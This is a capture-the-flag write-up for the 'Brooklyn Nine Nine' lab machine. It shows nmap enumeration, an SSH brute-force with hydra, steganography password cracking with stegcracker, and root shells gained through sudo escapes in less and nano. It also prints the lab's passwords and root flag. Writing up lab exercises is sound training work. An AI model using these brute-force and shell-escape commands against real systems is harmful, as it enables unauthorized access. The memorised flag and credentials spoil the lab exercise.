

What we can learn from this machine?
* FTP 
* stegcracker
* GTFObins (less sudo allowed no-password)

In this box I'm using two methods to login to our user.

Let's enumerate the machine. Ok then !! let's run our nmap.

```text
# Nmap 7.91 scan initiated Tue Jul 13 09:37:54 2021 as: nmap -sC -sV -A -oN nmap 10.10.34.147
Nmap scan report for 10.10.34.147
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.4.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 13 09:39:13 2021 -- 1 IP address (1 host up) scanned in 79.32 seconds
```

We got port 21 ftp it allowed to anonymous login and we got a file to jake. we got port 22 ssh and port 80 open.

## Method 1
Let's  get that file on ftp server. When we get that file we can see this msg to jake from amy. (use get command to grab the file)

```text
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Looks like jake got weak password. Let's try to bruteforce the jake's ssh password. Here is the command I use to bruteforce :

```bash
hydra -l jake -P /opt/rockyou.txt ssh://10.10.34.137

```

After the bruteforce we easily got the jake's password. 

```bash
[DATA] attacking ssh://10.10.34.147:22/
[22][ssh] host: 10.10.34.147   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```
Let's ssh to jake's machine. After the log in we cannot see the user.txt. But we can search for it from using find command.

```bash
find / -type f -name user.txt 2>/dev/null
```
Here is the result:

```bash
jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt
jake@brookly_nine_nine:~$ cat /home/holt/user.txt
```
Let's see what jake can do with **sudo** for that. Run *sudo -l* command. 

```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Ok then!! Let's search this on gtfobins (https://gtfobins.github.io/gtfobins/less/#sudo).


After the reading this. you can type **sudo less /etc/profile** and after it execute less on /etc/profile file you can type **!/bin/sh** and type enter.

```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
# Method 2
We know we got port 80 open which is web server. Let's go to it and we can see this image on web page.


When we go into the source. We can see this comment. 
```
Have you ever heard of steganography? 
```
Ok then !! let's grab this image annd take a look into the image. For that I'm using steghide.

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ steghide info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```
We don't have to passphrase to see inside. But we can use **stegcracker** to crack the passphrase. 

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20331 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```
Passphrase was the *admin*. When we read the output we can see the holt's ssh password. 

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Let's ssh into the holt user and grab the user key. 

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ ssh holt@10.10.34.147                                                                1 ⨯
holt@10.10.34.147's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
```
After executing sudo -l I found this.

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Hmm !! Let's see what we can do for this. When we search this on gtfobins we got this. (https://gtfobins.github.io/gtfobins/nano/#sudo)


How to do this.. Let's open the nano with sudo and press ctrl+r and ctrl+x to execute this command **reset; sh 1>&0 2>&0**. 


